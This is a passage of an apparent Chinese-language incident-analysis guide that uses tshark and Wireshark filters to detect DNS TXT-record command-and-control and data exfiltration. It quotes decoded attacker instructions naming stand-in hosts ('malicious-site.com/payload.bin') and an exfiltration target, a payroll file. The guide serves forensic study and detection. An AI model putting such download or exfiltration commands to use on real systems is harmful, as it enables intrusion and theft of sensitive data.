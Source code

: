 2. 在受感染主机本地捕获
   ```
   # 使用-P选项以原始格式捕获
   tshark -i 3 -P -w infected_host.pcapng
   ```

**分析策略**：
1. 识别非标准协议或端口上的通信
2. 检查敏感DNS查询和可疑域名
3. 分析加密与非加密流量模式
4. 提取可能的命令控制通信

### 恶意行为特征识别

使用Wireshark分析捕获的流量，找到以下可疑特征：

1. **异常DNS流量**：
   ```
   # 显示过滤器
   dns.qry.name contains "xz" and dns.qry.type == 16
   ```
   
   发现多个针对随机子域的TXT记录查询，格式如：
   ```
   d1c7xz.malicious-domain.com
   a45fxz.malicious-domain.com
   ```

2. **数据分段与编码**：
   DNS响应中包含Base64编码的数据段

3. **命令与控制通信**：
   ```
   # 提取DNS TXT记录
   tshark -r infected_host.pcapng -Y "dns.resp.type == 16" -T fields -e dns.txt
   ```
   
   解码TXT记录后发现命令控制指令：
   ```
   download:http://malicious-site.com/payload.bin
   exfil:C:\Users\finance\Documents\Q3_payroll.xlsx
   ```

4. **敏感数据外泄**：
   ```
   # 识别可疑HTTP POST请求
   http.request.method == "POST" and http.request.uri contains "gate.php"
   ```
   
   请求包含高熵数据段，疑似加密的敏感信息

### 攻击过程还原

基于Wireshark分析，重建了完整攻击链：

1. **初始感染**：
   通过分析浏览器流量，发现用户访问了包含恶意脚本的钓鱼邮件链接
   ```
   # 邮件链接请求
   http.request.uri contains "quarterly-report" and http.request.uri contains ".doc"
   ```
